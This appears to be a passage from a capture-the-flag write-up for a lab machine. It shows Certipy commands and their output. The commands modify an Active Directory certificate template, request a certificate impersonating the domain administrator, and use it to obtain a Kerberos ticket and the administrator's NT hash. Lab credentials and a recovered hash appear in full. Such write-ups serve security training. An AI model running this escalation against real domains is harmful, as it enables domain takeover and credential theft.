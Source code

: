 ```bash
➜  autoADCS git:(main) ✗ certipy-ad template -username ca_svc@sequel.htb -password 'NewPassword123!' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51                                                                                             
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
➜  autoADCS git:(main) ✗ certipy-ad req -username ca_svc@sequel.htb -password 'NewPassword123!' -ca sequel-DC01-CA -target sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb  -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 30
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

and lets auth it

```bash
➜  autoADCS git:(main) ✗ certipy-ad auth -pfx administrator.pfx                                                   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```